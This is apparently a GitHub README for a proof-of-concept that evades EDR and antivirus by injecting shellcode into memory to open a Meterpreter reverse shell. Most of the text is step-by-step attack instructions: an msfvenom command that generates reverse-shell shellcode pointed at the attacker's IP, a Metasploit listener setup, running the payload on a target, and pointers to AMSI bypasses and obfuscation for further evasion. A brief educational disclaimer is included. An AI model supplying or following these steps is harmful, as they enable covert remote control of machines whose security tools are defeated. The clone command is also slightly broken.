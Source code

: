 # EDR-Antivirus-Bypass-to-Gain-Shell-Access


This repository contains a **proof-of-concept (PoC)** for bypassing EDR and antivirus solutions using a memory injection technique. The code executes shellcode that spawns a reverse shell, successfully evading detection by various security mechanisms.

---

## Description

This project demonstrates how to bypass EDR and antivirus protection using Windows API functions such as `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject`. The payload is injected directly into the process memory without being detected by security tools, establishing a connection to a remote system for a reverse shell.

> **Disclaimer:** This code is for educational purposes only. Use it responsibly and only in environments where you have explicit permission to test.

---

## Features

- Bypasses standard EDR and antivirus solutions
- Executes shellcode in memory to create a reverse shell
- Utilizes `VirtualAlloc` and `CreateThread` to inject the payload directly into process memory

---

## Requirements

- Windows Operating System (Tested on Windows 11 Pro)
- Kali Linux (For reverse shell listener)
- Visual Studio or any C# compiler

---

## Steps to Compile & Run

### 1. Clone the Repository

```bash
https://github.com/murat-exp/EDR-Antivirus-Bypass-to-Gain-Shell-Access.git
cd EDR-Antivirus-Bypass-Shell-Access
```


### 2. Modify Shellcode

Before compiling, ensure that you modify the shellcode to point to your own IP address and port for the reverse shell. You can generate shellcode using `msfvenom:`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f csharp
```

Replace the `byte[] buf` section in Program.cs with the shellcode you just generated.


### 3. Compile the Code

Open the project in Visual Studio, or use the following command to compile the code using the .NET SDK:


```bash
csc bypass.cs
```

**Alternatively, you can compile in Release mode for better optimization:


```bash
csc -optimize bypass.cs
```


### 4. Start a Listener on Kali

On your Kali Linux machine, start a listener to catch the reverse shell. Use the following commands in Metasploit:


```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
set LPORT <YOUR_PORT>
run
```


### 5. Execute the Payload

Transfer the compiled .exe file to the Windows machine. You can execute the file manually or use any other method to run the file:


```bash
bypass.exe
```


6. Obtain the Shell

Once the payload is executed on the target machine, you should see a reverse shell session open in your Metasploit console. From there, you can interact with the system:



```bash
meterpreter > sysinfo
meterpreter > shell
```


7. Additional Bypass Techniques

To avoid detection by advanced EDR solutions, consider using techniques like process injection, obfuscation, or AMSI bypasses. This PoC can be extended with these methods for more robust evasion.


This POC bypasses all current AV and EDR solutions.  

I will soon share with you the codes I have developed with more advanced methods.






